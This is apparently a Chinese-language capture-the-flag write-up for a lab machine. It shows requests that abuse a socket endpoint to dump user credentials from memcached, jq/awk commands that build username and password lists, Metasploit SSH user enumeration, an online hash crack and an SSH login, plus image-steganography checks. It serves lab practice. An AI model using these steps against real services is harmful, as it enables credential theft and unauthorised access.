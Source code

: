 开放的端口除了已知的，还有11211，Memory cache service，内存缓存服务。

免费和开源，高性能，分布式**内存对象缓存系统**，本质上是通用的，但旨在通过减轻数据库负载来加速动态Web应用程序。

搜索“memcached cheat sheet(备忘单)”，得知服务的使用方式。

[https://lzone.de/cheat-sheet/memcached](https://lzone.de/cheat-sheet/memcached)

---
http://10.10.10.86:8080/socket?port=11211&cmd=stats+slabs

http://10.10.10.86:8080/socket?port=11211&cmd=get+users

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/6.PNG)

获得了一系列数据，将这些数据保存为json.

```
jq . test.json | awk -F\" '{print $2}' > /root/Desktop/10.10.10.86/user.lst
jq . test.json | awk -F\" '{print $4}' > /root/Desktop/10.10.10.86/pass.lst
```
#### 再次ssh扫描可用用户
```
msfconsole
use scanner/ssh/ssh_enumusers
set RHOSTS 10.10.10.86
set USER_FILE /root/Desktop/10.10.10.86/user.lst
```
genevieve 是有效用户名

`jq . test.json | grep genevieve`获得了加密的hash`fc7992e8952a8ff5000cb7856d8586d2`

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-19-04/12.PNG)
在线解密结果：Princess1

ssh genevieve@10.10.10.86

## 总结

值得反思的是，关于弱密码，应该在vps上部署脚本，然后自动化探测。

这个靶机做不出来，很正常的。。。没见过的服务，入侵思路都找不到。

#### 如何检查一张图片中是否有隐藏的信息
```
exiftool xx.jpg
strings xx.jpg|less
binwalk xx.jpg
xxd xx.jpg |less
```
